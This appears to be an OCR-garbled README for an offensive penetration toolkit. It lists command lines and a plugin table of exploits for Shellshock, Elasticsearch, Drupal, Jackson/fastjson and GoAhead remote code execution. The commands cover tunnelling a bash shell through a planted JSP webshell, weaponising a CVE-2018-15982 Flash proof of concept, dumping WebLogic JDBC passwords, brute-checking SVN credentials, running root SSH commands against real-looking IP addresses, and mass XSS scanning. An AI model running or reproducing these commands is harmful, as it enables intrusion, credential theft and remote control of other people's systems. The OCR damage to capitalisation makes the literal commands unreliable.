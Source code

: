 ## New features
```
# ssh2
Py2 py/rforward.py -r 192.168.10.115:8083 -p 9999 -u root 12.19.16.11:27449
Curl http://162.219.126.11:9999/QIMS/login.jsp -v

# how use exploit CVE-2018-15982

Py2 tools/replaceBin.py -i /mysvn/CVE-2018-15982_PoC.swf -o /mysvn/test.swf -c 'notepad.exe'

# get bash shell,socks4 through http tunnel,auto use tmux and reGeorgSocksProxy.py
Tools/getBashShell_proxychains_http_tunnel.sh http://xxx:9002/uddi/.O01542895480635.jsp

# check Xss
Cat /mysvn/new_url_list.txt|xargs -I % node tools/checkXss.js -v -u %
# check svn paswd
Node tools/checkSvn.js http://12.68.10.7:8090/svn/ userName Pswd

# socks5
Node tools/mySocks5.js --user mser --password W_x*d -p 15533

#one key get weblogic passwd
Ssh -i YouKey userName@YouTargetIp -p targetPort < tools/oneKeyGetSshWeblogicJdbcPswd.sh >out.txt

# port Forward
Node tools/portForward.js -l 8080,3306 --rhost 172.17.0.2 -s 127.0.0.1 -p 8111

# ssh cmd
Node tools/ssh2Cmd.js --port 29156 --host 12.8.22.48 --username root --password '#$'

# xss test
Cat /mysvn/xss.txt|grep -Eo "http.*$"|sort -u|xargs -I % node checkUrl.js -u % --tags xss

# test all urls xss
Cat /mysvn/xx.sh|grep -Eo "'([^']+)'"|xargs -I % bash -c 'curl --connect-timeout 2 -Is % -o-| head -n 1| Grep -Eo "(200|301)" && node checkUrl.js -u % --tags xss'


```
## plugins
|name|tags|dependencies|des|
| --- | --- | --- | --- |
|/bash/CVE-2014-6271.js|shellshock,web,CVE-2014-6271,rci|java,ysoserial,base64,tr|Shellshock Remote Command Injection (CVE-2014-6271)|
|/GlassFish/4.1.0.js|glassfish,web||glassfish 4.1.0 Vulnerability detection|
|/elasticsearch/CVE-2015-1427.js|elasticsearch,web,CVE-2015-1427|java,ysoserial,base64,tr|elasticsearch,web,CVE-2015-1427,RCE,ElasticSearch Groovy Sandbox bypass && code (CVE-2015-1427) test environment|
|/elasticsearch/CVE-2014-3120.js|elasticsearch,web,CVE-2014-3120|java,ysoserial,base64,tr|elasticsearch,web,CVE-2014-3120,RCE|
|/elasticsearch/CVE-2015-3337.js|CVE-2015-3337,||ElasticSearch Directory traversal vulnerability(CVE-2015-3337)test environment|
|/flask/ssti.js|ssti,flask,parms||Flask(Jinja2) Server Template Injection Vulnerability|
|/jackson/drupal_CVE-2018-7600.js|CVE-2018-7600, web, drupal|java, ysoserial, base64, tr|drupal, Vulnerability detection|
|/jackson/CVE-2017-7525.js|jackson,web,CVE-2017-7525,CVE-2017-17485|java,ysoserial,base64,tr|CVE-2017-7525,Vulnerability detection,JDK7u21,CVE-2017 -17485|
|/jackson/fastjson.js|fastjson,web,|java,ysoserial,base64,tr|fastjson,Vulnerability detection|
|/http/attackhost.js|http,host,spoof,web||spoof host,Vulnerability detection|
|/goahead/CVE-2017-17562.js|CVE-2017-17562,goahead,web|gcc,c lib,rm(/tmp/xx)|GoAhead Remote command execution vulnerability(CVE-2017-17562) Vulnerability detection|